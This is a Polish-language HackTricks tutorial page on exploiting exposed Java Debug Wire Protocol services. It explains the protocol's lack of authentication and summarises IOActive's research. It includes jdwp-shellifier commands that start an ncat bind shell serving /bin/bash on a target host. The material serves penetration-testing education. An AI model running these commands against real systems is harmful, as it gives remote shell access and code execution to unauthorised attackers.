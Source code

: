 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Natychmiastowo dostępna konfiguracja do oceny podatności i testów penetracyjnych**. Przeprowadź pełny pentest z dowolnego miejsca z 20+ narzędziami i funkcjami, które obejmują od rekonesansu po raportowanie. Nie zastępujemy pentesterów - rozwijamy niestandardowe narzędzia, moduły wykrywania i eksploatacji, aby dać im z powrotem trochę czasu na głębsze badania, przełamywanie zabezpieczeń i zabawę.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Eksploatacja

Eksploatacja JDWP opiera się na **braku uwierzytelniania i szyfrowania w protokole**. Zwykle znajduje się na **porcie 8000**, ale możliwe są inne porty. Początkowe połączenie nawiązywane jest przez wysłanie "JDWP-Handshake" do docelowego portu. Jeśli usługa JDWP jest aktywna, odpowiada tym samym ciągiem, potwierdzając swoją obecność. Ten handshake działa jako metoda identyfikacji do rozpoznawania usług JDWP w sieci.

Jeśli chodzi o identyfikację procesów, wyszukiwanie ciągu "jdwk" w procesach Java może wskazywać na aktywną sesję JDWP.

Narzędziem, które warto użyć, jest [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). Możesz go używać z różnymi parametrami:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
Zauważyłem, że użycie `--break-on 'java.lang.String.indexOf'` sprawia, że exploit jest **stabilniejszy**. A jeśli masz możliwość przesłania backdoora na hosta i jego wykonania zamiast wykonywania polecenia, exploit będzie jeszcze bardziej stabilny.

## Więcej szczegółów

**To jest podsumowanie [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)**. Sprawdź to, aby uzyskać więcej szczegółów.

1. **Przegląd JDWP**:
- To protokół binarny oparty na pakietach, głównie synchroniczny.
- Brak autoryzacji i szyfrowania, co czyni go podatnym na ataki, gdy jest narażony na wrogie sieci.

2. **Uścisk dłoni JDWP**:
- Używany jest prosty proces uścisku dłoni do rozpoczęcia komunikacji. Wymieniana jest 14-znakowa ciąg ASCII „JDWP-Handshake” między Debuggerem (klientem) a Debuggee (serwerem).

3. **Komunikacja JDWP**:
- Wiadomości mają prostą strukturę z polami takimi jak Długość, Id, Flaga i CommandSet.
- Wartości CommandSet wahają się od 0x40 do 0x80, reprezentując różne akcje i zdarzenia.

4. **Eksploatacja**:
- JDWP pozwala na ładowanie i wywoływanie dowolnych klas i bajtów kodu, co stwarza zagrożenia dla bezpieczeństwa.
- Artykuł szczegółowo opisuje proces eksploatacji w pięciu krokach, obejmujących pobieranie odniesień do Java Runtime, ustawianie punktów przerwania i wywoływanie metod.

5. **Eksploatacja w rzeczywistości**:
- Pomimo potencjalnych zabezpieczeń zapory, usługi JDWP są wykrywalne i podatne na ataki w rzeczywistych scenariuszach, co zostało udowodnione przez wyszukiwania na platformach takich jak ShodanHQ i GitHub.
- Skrypt exploita był testowany na różnych wersjach JDK i jest niezależny od platformy, oferując niezawodne zdalne wykonanie kodu (RCE).

6. **Implikacje bezpieczeństwa**:
- Obecność otwartych usług JDWP w internecie podkreśla potrzebę regularnych przeglądów bezpieczeństwa, wyłączania funkcji debugowania w produkcji oraz odpowiedniej konfiguracji zapory.

### **Referencje:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Natychmiast dostępne ustawienie do oceny podatności i testów penetracyjnych**. Przeprowadź pełny pentest z dowolnego miejsca z 20+ narzędziami i funkcjami, które obejmują od rekonesansu po raportowanie. Nie zastępujemy pentesterów - rozwijamy niestandardowe narzędzia, moduły wykrywania i eksploatacji, aby dać im z powrotem trochę czasu na głębsze badania, otwieranie powłok i zabawę.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
